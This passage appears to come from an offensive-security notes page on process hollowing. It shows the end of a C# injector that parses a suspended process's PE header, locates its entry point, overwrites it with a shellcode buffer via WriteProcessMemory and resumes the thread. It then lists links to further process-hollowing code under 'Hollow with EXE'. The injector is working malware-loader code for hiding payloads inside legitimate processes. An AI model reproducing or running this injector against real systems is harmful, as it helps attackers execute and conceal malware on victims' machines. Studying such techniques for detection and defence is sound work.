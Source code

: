 ```csharp

            // Read 200 bytes of the loaded EXE image and parse PE structure to get the EntryPoint address
            byte[] data = new byte[0x200];
            ReadProcessMemory(hProcess, imageBaseAddress, data, data.Length, out nRead);
            // "e_lfanew" field (4 bytes, UInt32; contains the offset for the PE header): e_lfanew = BASE_ADDR + 0x3C
            uint e_lfanew = BitConverter.ToUInt32(data, 0x3C);
            // EntryPoint RVA (Relative Virtual Address) offset: ENTRYPOINT_RVA_OFFSET = e_lfanew + 0x28
            uint entrypointRvaOffset = e_lfanew + 0x28;
            // EntryPoint RVA (4 bytes, UInt32; contains the offset for the executable EntryPoint address): ENTRYPOINT_RVA = BASE_ADDR + ENTRYPOINT_RVA_OFFSET
            uint entrypointRva = BitConverter.ToUInt32(data, (int)entrypointRvaOffset);
            // Absolute address of the executable EntryPoint: ENTRYPOINT_ADDR = BASE_ADDR + ENTRYPOINT_RVA
            IntPtr entrypointAddress = (IntPtr)((UInt64)imageBaseAddress + entrypointRva);

            // Write the shellcode to the EntryPoint address and resume thread execution
            WriteProcessMemory(hProcess, entrypointAddress, buf, buf.Length, out nRead);
            ResumeThread(pi.hThread);
        }
    }
}
```
{% endcode %}



### Hollow with EXE

* [https://github.com/m0n0ph1/Process-Hollowing](https://github.com/m0n0ph1/Process-Hollowing)
* [https://gist.github.com/gnh1201/6a3836468c898f7ad3a3656e6f24dce3](https://gist.github.com/gnh1201/6a3836468c898f7ad3a3656e6f24dce3)
* [https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations](https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations)
